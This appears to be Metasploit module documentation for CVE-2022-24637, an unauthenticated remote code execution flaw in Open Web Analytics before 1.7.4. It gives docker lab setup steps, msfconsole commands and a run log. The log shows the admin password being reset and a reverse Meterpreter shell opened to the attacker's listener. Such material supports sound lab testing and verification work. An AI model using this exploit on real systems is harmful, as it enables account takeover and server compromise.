 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated remote attacker to obtain sensitive user information, which can be used to gain admin privileges by leveraging cache hashes. This occurs because files generated with '<?php (instead of the intended "<?php sequence) aren't handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: ``docker compose up -d``
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the ``docker-compose.yml`` file
        - Public URL: ``http://127.0.0.1/``
        - Database Host (``docker inspect <db-container>`` and get ``IPAddress``, e.g ``172.22.0.2``)
        - Database Port: ``3306``
        - Database Name: ``owa``
        - Database User: ``owa``
        - Database Password: ``Demo12+#``
        - Continue
        - Site Domain: ``http://127.0.0.1``
        - Admin name: ``admin``
        - E-Mail: ``admin@admin.com``
        - Password: ``Demo12+#``
        - Continue

2. Start ``msfconsole``
3. ``use exploit/multi/http/open_web_analytics_rce``
4. ``set RHOSTS 127.0.0.1``
5. ``set RPORT 80``
6. ``set SSL false``
7. ``set LHOST 172.22.0.1`` -> this needs to be bridge IP that got created with the ``docker compose up -d`` command
8. ``check``
9. ``run``

````
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[+] 127.0.0.1:80 - The target is vulnerable.
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1:80/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': b42f457df9d9482324ca8fe041f19f1c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 3 opened (172.22.0.1:4444 -> 172.22.0.3:47728) at 2023-03-09 13:55:58 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at 'http://127.0.0.1:80//owa-data/caches/ERaG8bho.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
````